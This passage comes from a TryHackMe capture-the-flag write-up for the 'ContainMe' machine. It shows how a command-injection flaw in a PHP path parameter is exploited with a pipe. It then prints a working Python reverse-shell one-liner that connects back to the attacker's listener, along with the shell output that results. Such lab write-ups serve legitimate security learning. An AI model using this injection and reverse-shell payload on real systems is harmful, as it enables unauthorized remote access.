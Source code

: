 ## Initial Foothold

**What if I can read files in the target machine??**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/ContainMe/images/a5.png)

Hmm... **Maybe the PHP code is doing the following code?:**

```php
<?php
system('ls -lah '.$_GET['path'])
?>
```

If it's in that case, we have a **command injection** vulnerability!

**we can use a pipe (`|`) to exploit it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/ContainMe/images/a6.png)

Nice!! Let's get a reverse shell!

**To do so, I'll:**

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# nc -lnvp 443   
listening on [any] 443 ...
```

- Send a reverse shell payload: (Generated from [revshells.com](https://www.revshells.com/))

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.27.249",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/ContainMe/images/a7.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# nc -lnvp 443   
listening on [any] 443 ...
connect to [10.8.27.249] from (UNKNOWN) [10.10.253.177] 51704
www-data@host1:/var/www/html$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
host1
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:9c:ff:0f brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.168.250.10/24 brd 192.168.250.255 scope global dynamic eth0
       valid_lft 3333sec preferred_lft 3333sec
    inet6 fe80::216:3eff:fe9c:ff0f/64 scope link 
       valid_lft forever preferred_lft forever
7: eth1@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:46:6b:29 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.16.20.2/24 brd 172.16.20.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe46:6b29/64 scope link 
       valid_lft forever preferred_lft forever
```
